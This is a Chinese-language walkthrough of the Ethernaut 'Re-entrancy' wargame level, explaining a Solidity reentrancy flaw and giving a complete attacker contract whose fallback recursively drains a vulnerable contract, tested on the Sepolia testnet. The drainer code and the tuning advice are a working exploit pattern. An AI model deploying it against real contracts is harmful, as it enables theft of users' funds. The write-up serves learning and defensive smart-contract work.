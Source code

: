
# level10 Re-entrancy

## 1. 问题

要求你将合约中所有的eth转出到自己的地址。合约源码如下：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

## 2. 解法

本题是要求你利用合约中的`重入攻击`漏洞来实现偷eth的效果。具体的漏洞在下面几行：

```solidity
if (balances[msg.sender] >= _amount) {
    (bool result,) = msg.sender.call{value: _amount}("");
    if (result) {
        _amount;
    }
    balances[msg.sender] -= _amount;
}
```

当第一次调用 `withdraw` 函数时，if调节如果判断成功，会先调用 `msg.sender.call` 给目标地址转入eth，此时可能触发目标地址的 `fallback` 或 `receive` 函数，函数内可能会继续调用 `withdraw` 函数，形成循环。

通过循环第二次进入时，因为第一次还没有走到 `balances[msg.sender] -= _amount;` 余额扣减，所以二次调用时条件仍然满足，产生重入漏洞。

具体操作流程如下：

1. 编写 `HackReentrancy` 合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.12;

interface IReentrance {
    
    function donate(address _to) external payable;

    function balanceOf(address _who) external view returns (uint256 balance);
    
    function withdraw(uint256 _amount) external;
}

contract HackReentrancy {
    
    IReentrance private reentrance;

    constructor(address _reentrance) {
        reentrance = IReentrance(_reentrance);
    }
    
    function hack() external payable {
        // 1. 先充值
        reentrance.donate{value: msg.value}(address(this));
        // 2. 立刻提款，触发fallback
        reentrance.withdraw(msg.value);
    }
    
    fallback() external payable {
        // 1. 判断余额
        uint256 allLeft = address(reentrance).balance;
        uint256 usLeft = reentrance.balanceOf(address(this));
        if(allLeft > usLeft) {
            // 1.a 如果余额超过自己注资的钱，则按照最大量递归
            reentrance.withdraw(usLeft);
        } else if (allLeft > 0) {
            // 1.b 如果余额已经低于自己注资的钱，则可以最后一次全部取走
            reentrance.withdraw(allLeft);
        } 
        // 1.c 如果已经全部被取出来了，则停止递归调用，完成任务
    }
}
```

2. 在remix中编译，部署到sepolia上，[交易地址](https://sepolia.etherscan.io/tx/0x1d27b1e3efc72356ce6b9182d4edb9aad42d17d15e9406c8a41917df3992fbcc)

3. 我们通过查询区块链浏览器，发现这个合约一共有 `0.001 ether = 10^6 gwei`。

4. 调用 `hack` 合约，输入传输的 `msg.value` 为 `4 * 10^5 gwei`, [交易地址](https://sepolia.etherscan.io/tx/0x20c57b5f9719ba0ae04f6d0a42bdad786a817d0fb756313e401e777e68184570):

> [!TIP]
> 基本上这个量级或这个更大的都没问题。
> 具体关于 `msg.value` 值的分析见后续章节


![](../../resources/img/level10/success_hack2.png)

5. 上面的交易记录截图已经能看出来，我们的递归已经生效，且最后一次把剩余的余额尾巴也收走了。

6. 点击 `submit instance`， 提交通过！

## 3. 注意：不要设置过小的 `msg.value`

> [!IMPORTANT]
> 1. solidity限制了函数递归调用不能超过1024层，同时深度还受gas limit等的限制，所以我们需要精确设计递归层数，让他不要因为递归太多导致交易执行失败，结果导致什么都没捞到，反而白白损失手续费
> 2. solidity的这个特性也能推测出：即使遭遇了重入攻击，攻击者为了安全起见，大概率也不会写一个合约，通过一次调用偷走所有的资金。更大概率会通过蚂蚁搬家的方式一点点偷走资金。所以对于Dapp开发者来说，准备好应急预案，留下方便操作的应急接口，也能在出现问题时挽回一点损失。

如果我们设置一个比较小的 `msg.value` 来调用 `hack` 函数([部署地址](https://sepolia.etherscan.io/tx/0xf67e33f785470c0a0a3988f5265148cb53247c16a42094ec275b9bfd3daf4e18))，现象如下：

1. （可选）为了递归过深导致失败，我们先输入 `1.1*10^3 Gwei`, 点击 `hack`, [交易链接](https://sepolia.etherscan.io/tx/0xeeebe2eba293d3d96f06b25c3b242080d806ddbb884cc188e23049bd9852729b)

![](../../resources/img/level10/hack2.png)


执行后，能发现交易gas使用了 70w+，且可以看到internal transaction很多，说明递归次数很多:

![](../../resources/img/level10/failure_inter_txn.png)

2. 此时，如果我们继续操作，再调整成合适的手续费，比如 `5 * 10^5 Gwei` 再此调用 `hack`, [交易链接](https://sepolia.etherscan.io/tx/0xd9bb919227b25c95dae8e15a701b91b36fff7409eb7a2785d2287e51ec27fa4f), 我们会发现交易直接失败了：

![](../../resources/img/level10/failure_inter_txn2.png)


3. 如果我们进一步查询，会发现 `HackEntrancy` 合约在原始 `Reentrance` 合约中的余额已经变成一个非常大的值了：

![](../../resources/img/level10/wrong_balance2.png)

4. 这个是因为原始的 `Reentrance` 合约是 `0.6.x` 版本编译的，他没有做数字的溢出判断，导致第一次调用时，会在 `balances[msg.sender] -= _amount;` 时将我们的余额减成负数（对应的就是一个正很大的整数）。后续我们二次调用 `donate` 时，内部的加法又做了越界校验，导致校验没通过:

```solidity
if (balances[msg.sender] >= _amount) {
    (bool result,) = msg.sender.call{value: _amount}("");
    if (result) {
        _amount;
    }
    balances[msg.sender] -= _amount;
}
```

| [⬅️ level9 King](../level9_king/README.md) | [level11  ➡️]() |
|:------------------------------|--------------------------:|